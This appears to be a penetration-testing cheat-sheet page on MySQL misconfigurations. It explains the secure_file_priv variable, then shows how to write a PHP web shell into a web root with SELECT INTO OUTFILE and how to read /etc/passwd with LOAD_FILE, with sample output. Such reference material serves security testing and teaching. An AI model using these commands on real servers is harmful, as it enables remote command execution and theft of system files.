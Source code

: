 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# MySQL

## Misconfigurations

### secure\_file\_priv

In MySQL, a global system variable [secure\_file\_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD\_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

* If empty, the variable has no effect, which is not a secure setting.
* If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
* If set to NULL, the server disables import and export operations.

## Command Execution

{% hint style="info" %}
## Execution Methodology

MySQL does not have a stored procedure like **xp\_cmdshell**, but attackers can achieve command execution by writing to a location in the file system that can execute commands. For example, if MySQL is running on a PHP-based web server and the attacker has the appropriate privileges, they can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the web server directory. The attacker would then navigate to that location and execute the commands.
{% endhint %}

### Write Local Files

```sql
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In the following example, we can see the [#secure\_file\_priv](mysql.md#secure_file_priv "mention") variable is empty, which means we can read and write data using MySQL:

```sql
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

### Read Local Files

By default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, attackers can read files using the following methods:

```sql
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```
